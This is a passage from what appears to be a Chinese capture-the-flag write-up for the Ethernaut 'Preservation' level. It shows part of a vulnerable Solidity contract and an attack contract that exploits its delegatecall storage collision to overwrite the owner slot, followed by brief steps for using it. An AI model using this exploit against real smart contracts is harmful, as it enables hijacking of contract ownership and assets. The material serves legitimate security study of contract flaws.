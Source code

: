 ```solidity
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(setTimeSignature, _timeStamp);
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}

contract attack {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    
    address instance_address = 0x7cec052e622c0fb68ca3b2e3c899b8bf8b78663c;
    Preservation target = Preservation(instance_address);
    function attack1() {
        target.setFirstTime(uint(address(this)));
    }
    function attack2() {
        target.setFirstTime(uint(0x88d3052d12527f1fbe3a6e1444ea72c4ddb396c2));
    }
    function setTime(uint _time) public {
        timeZone1Library = address(_time);
        timeZone2Library = address(_time);
        owner = address(_time);
    }
}
```

先调用 attack1() ，再调用 attack2() 即可

### Result
